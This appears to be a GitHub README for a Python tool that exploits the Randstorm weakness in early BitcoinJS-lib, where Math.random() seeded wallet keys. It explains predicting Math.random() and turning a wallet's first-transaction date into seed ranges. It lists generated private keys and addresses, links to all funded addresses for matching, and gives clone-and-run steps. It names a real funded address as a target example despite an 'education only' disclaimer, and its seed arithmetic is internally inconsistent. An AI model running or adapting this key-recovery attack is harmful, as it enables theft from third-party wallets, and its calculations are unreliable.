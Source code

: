 Between 2010 and 2015, many exchanges and websites relied on BitcoinJS-lib v0.1.3 for Bitcoin wallet generation. The issue was that many browsers didn't use window.crypto.random, which lead to entropy being collected from Math.random(). <br>

The code inside the if block will only be executed if all three conditions are true. If you aren't using an old version of Netscape, then the code block will be skipped. As of 2011, most people were using more modern browsers like Internet Explorer, Firefox, Google Chrome, Safari, or Opera. This means that the random number generator was seeded using rng_seed_time() with Math.random() as the only source of entropy. 

##  Math.random() predictability 

Using [v8-randomness-predictor](https://github.com/PwnFunction/v8-randomness-predictor) the program uses z3 to predict Math.random values. 

```bash
Sequence = [0.6297969575631002, 0.6074412953668151, 0.9919811223107806, 0.48870040262493863, 0.4398739265503919]

Next Sequence: 0.3283496320042738

Updated Sequence: [0.6074412953668151, 0.9919811223107806, 0.48870040262493863, 0.4398739265503919, 0.3283496320042738]

Next Sequence: 0.37620797979266385

Updated Sequence: [0.9919811223107806, 0.48870040262493863, 0.4398739265503919, 0.3283496320042738, 0.37620797979266385]

Next Sequence: 0.7982242070609398
```
```python
Array.from(Array(5), Math.random)
(5) [0.6297969575631002, 0.6074412953668151, 0.9919811223107806, 0.48870040262493863, 0.4398739265503919]
Math.random()
0.3283496320042738
Math.random()
0.37620797979266385
Math.random()
0.7982242070609398
Math.random()
0.6684147152303501
```
## Vulnerable Wallets

This vulnerability is only for wallets that were created using [BitcoinJS-lib v0.1.3](https://github.com/bitcoinjs/bitcoinjs-lib/releases/tag/0.1.3). Since we can't determine when the wallet was generated or even if the wallet was generated using BitcoinJS-lib v0.1.3, it makes things very difficult. 

We can examine when the first transaction took place using the blockchain. Using Get_First_Transaction.py we can get the first transaction date using a free API call on [btcscan.org](https://btcscan.org/). If the address was generated on December 24, 2012, 2:44:56 AM, then using the [Unix epoch time](https://www.epochconverter.com/) we can see that the seed = 55793394904000. This is the Unix epoch time in milliseconds. 

```bash
Address: 1NUhcfvRthmvrHf1PAJKe5uEzBGK44ASBD
First Transaction: 2014-03-16 23:48:51 GMT -7
Current Balance: 1.9999 BTC
```
Convert the date 2014-03-16 23:48:51 GMT -7 to Unix epoch time in linux with command:

```bash
date -d "2014-03-16 23:48:51 GMT -7" +"%s" | awk '{print $1 * 1000}'
```
1395038931000

Now, get the date from whatever time period you want to try before March 3, 2014.

March 1, 2014 = 1393635661000

1395042082000 - 1393635661000 = 1.4 Billion Seeds

## Generate Seeds

Using the implementation of SecureRandom(), set the seed to March 1, 2014 = 1393635661000 and generate keys incrementally until the date of the first transaction:

Seed: 1310691661000 <br>
Hex: 6ad2d763712eae6428e2922d7181f92fb70d0e564d1dd38dd0aa9b34b844c0cb <br>
P2PKH: 1JbryLqejpB17zLDNspRyJwjL5rjXW7gyw<br>

Seed: 1310691661001 <br>
Hex: fb6ad847a48da87b332b565b548347078a1b9890b9c352a4d9993ae09c189fa6 <br>
P2PKH: 1273EG6iByUWoDY8PrCBEhJsEBLEzk1rEi<br>
...
## Check for a Match 

The script generates the private key from the seed, converts it to the Bitcoin address and checks if it matches. 

## Download & Installing

Download and install the latest version of Python. 

```bash
git clone https://github.com/RandstormBTC/randstorm/
cd randstorm
pip install -r requirements.txt
```

Run On Windows (cmd / powershell):
```bash
python randstorm.py
```
Run On Linux (debian):
```bash
python3 randstorm.py
```
## Download Addressess 
All funded Bitcoin addresses can be downloaded at:

http://addresses.loyce.club/

## Disclaimer
This software is for education purporses only and should not be configured and used to find (Bitcoin/Altcoin) address hash (RIPEMD-160) collisions and use (steal) credit from third-party (Bitcoin/Altcoin) addresses. This mode might be allowed to recover lost private keys of your own public addresses only.

Another mostly legal use case is a check if the (Bitcoin/Altcoin) addresses hash (RIPEMD-160) is already in use to prevent yourself from a known hash (RIPEMD-160) collision and double use. Some configurations are not allowed in some countries.

## Questions and Comments

Please feel free to share any questions. This is a work in progress and replicating the exact SecureRandom() function in python from Javascript has not been very easy. There still may be some issues...

## Contributors 

Special thanks to ChatGPT and DeepSeek Coder for the help. 

## Sources:

 <https://www.unciphered.com/blog/randstorm-you-cant-patch-a-house-of-cards>

 <https://jandemooij.nl/blog/math-random-and-32-bit-precision/>

 <https://medium.com/@betable/tifu-by-using-math-random-f1c308c4fd9d>

<https://security.stackexchange.com/questions/84906/predicting-math-random-numbers>

<https://lwn.net/Articles/666407/>

<https://ifsec.blogspot.com/2012/09/of-html5-security-cross-domain.html>

<https://github.com/PwnFunction/v8-randomness-predictor/tree/main>

## Donate:
BTC: bc1q2rqz0mzwxdm0umhlllsyd5rt30uh8kswhqcnqp
